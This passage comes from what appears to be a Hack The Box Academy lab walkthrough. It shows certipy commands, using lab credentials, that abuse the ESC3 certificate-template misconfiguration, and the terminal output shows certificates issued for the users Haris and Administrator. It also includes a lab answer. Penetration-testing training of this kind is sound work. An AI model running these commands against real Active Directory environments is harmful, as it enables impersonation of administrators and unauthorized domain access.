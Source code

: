 ```shell
certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template User -on-behalf-of Haris -pfx blwasp.pfx
```

```
┌─[eu-academy-1]─[10.10.15.2]─[htb-ac-413848@htb-m83evvx77g]─[~]
└──╼ [★]$ certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template User -on-behalf-of Haris -pfx blwasp.pfx

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 72
[*] Got certificate with UPN 'haris@lab.local'
[*] Certificate object SID is 'S-1-5-21-2570265163-3918697770-3667495639-2602'
[*] Saved certificate and private key to 'haris.pfx'
```

Answer: `S-1-5-21-2570265163-3918697770-3667495639-2602`

# ESC3

## Question 2

### "Abuse the ESC3 misconfiguration to impersonate the Administrator account. What is the value of the flag file at C:\\Users\\haris\\Desktop\\flag.txt?"

To abuse `ESC3` and impersonate the `Administrator` account, students need to use the `req` command of `certipy`, specifying the previously attained `PFX` certificate belonging to `blwasp` for the `-pfx` option , the `User` template for the `-template` option, and `Administrator` for the `-on-behalf-of` option; students will attain a `PFX` certificate for the `Administrator` user:

Code: shell

```shell
certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template User -on-behalf-of Administrator -pfx blwasp.pfx
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template User -on-behalf-of Administrator -pfx blwasp.pfx

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 69
[*] Got certificate with UPN 'Administrator@lab.local'
[*] Certificate object SID is 'S-1-5-21-2570265163-3918697770-3667495639-500'
[*] Saved certificate and private key to 'administrator.pfx'
```
